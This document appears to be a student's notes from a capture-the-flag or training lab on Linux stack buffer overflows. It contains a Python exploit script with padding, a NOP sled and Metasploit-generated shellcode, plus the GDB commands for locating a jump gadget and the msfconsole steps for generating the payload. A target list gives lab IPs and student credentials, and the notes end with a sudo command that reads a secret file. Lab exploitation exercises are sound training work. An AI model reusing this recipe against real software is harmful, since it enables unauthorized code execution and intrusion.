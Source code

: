     https://wiremask.eu/tools/buffer-overflow-pattern-generator/
_____________________________________________________________________________________________________________________
### Run GDB against the program you want to view
#### To see if it can be broken.
    gdb func
_____________________________________________________________________________________________________________________
### Create a python script to run against the program in gbd.
#### Buffer to see when the program breaks, EIP to jump to the point in memory, nop sled to push your code into executable space in memory, print to view the output as you update the script. THIS SCRIPT IS FULLY UPDATED!
    buffer = "A" * 62
    
    #eip = "BBBB"
    #eip = "\x59\x3b\xde\xf7"
    
    nop = '\x90' * 15
    
    buf =  b""                                                            #This is gotten from the msfconsole
    buf += b"\xd9\xc6\xba\x7b\x1d\x43\x22\xd9\x74\x24\xf4\x5e"            #commands that were ran below!!!!!!
    buf += b"\x31\xc9\xb1\x0b\x83\xc6\x04\x31\x56\x15\x03\x56"            #this comes later after msfconsole
    buf += b"\x15\x99\xe8\x29\x29\x05\x8a\xfc\x4b\xdd\x81\x63"
    buf += b"\x1d\xfa\xb2\x4c\x6e\x6c\x43\xfb\xbf\x0e\x2a\x95"
    buf += b"\x36\x2d\xfe\x81\x4e\xb1\xff\x51\x26\xd9\x90\x30"
    buf += b"\xa5\x70\x6f\xe4\x66\x0b\x8e\xc7\x09"
    
    print(buffer + eip + nop + buf)
_____________________________________________________________________________________________________________________
### Open the gdb enviroment to unset the memory.
#### Use the find command to locate the memory thats vulnerable to update your script.
    disass func                #if there more functions within the function
    env - gdb func
    unset env LINES
    unset env COLUMNS
    show env
    run
    info proc map
    find /b 0xf7de2000 , 0xf7ffe000 , 0xff , 0xe4
_____________________________________________________________________________________________________________________
### Run msfconsole to get the shellcode to run the command in the script.
#### step will take several attempts of running the last command and pasting into script.
    msfconsole
    use payload/linux/x86/exec
    show options
    set CMD whoami
    show options
    generate -b "\x00" -f python                  #copy the output and place into python script may take a few tries.
_____________________________________________________________________________________________________________________
### Open gdb against the program func
#### This is for testing the script continuously as you UPDATE IT.
    gdb func
    run <<< $(python test.py)
_____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
### ->T1: 192.168.28.111
### ->T2: 192.168.28.105

## >Jump Box
### ->donovian_grey_host
#### -->T3: 192.168.150.245

#### Target Section:

## T1
### Hostname: Donovian_Webserver
#### IP: 192.168.28.111
#### OS: CentOS
#### Creds: comrade :: StudentWebExploitPassword
#### Last Known SSH Port: 2222
#### Action: Exploit binary.

## T2
### Hostname: Donovian-Terminal
#### IP: 192.168.28.105
#### OS: unknown
#### Creds: comrade :: StudentReconPassword
#### Last Known SSH Port: 2222

## T3
### Hostname: unknown
#### IP: 192.168.150.245
#### OS: unknown
#### Creds:unknown
#### Last Known SSH Port: unknown
#### PSP: Unknown
#### Malware: Unknown
#### Action: Exploit a network service on the machine
_____________________________________________________________________________________________________________________
## For the shellcode to the ctf: 
sudo "cat /.secret/.verysecret.pdb"
